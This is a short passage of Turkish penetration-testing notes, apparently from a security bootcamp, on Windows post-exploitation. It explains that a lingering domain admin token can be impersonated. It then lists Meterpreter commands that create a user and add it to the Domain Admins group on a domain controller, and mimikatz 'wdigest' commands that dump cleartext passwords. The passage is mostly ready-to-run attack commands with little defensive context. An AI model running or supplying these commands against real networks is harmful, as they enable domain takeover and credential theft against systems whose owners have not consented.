 - Bir kullanıcının token'ini aldığımızda kendimizi onun gibi gösterebiliriz. Eğer sisteme domain admin giriş yapmışsa ve sign off yapmamışsa domain admin'in tokeni hedef makine kapanana kadar orada kalacaktır.

		S> ipconfig /all	(DNS server'a bakarak DC'nin IP adresini alırız veya enum_domain post modülünü kullanırız.)
		Mtr> add_user siberkamp Bgasec -h <DC_IP>
		Mtr> add_group_user "Domain Admins" siberkamp -h <DC_IP>

**- Clear Text Password:**

	Mtr> load mimikatz	(Clear text password alır. Windows 8den sonrası önlem aldı, öncesinde çalışır.)
	Mtr> wdigest


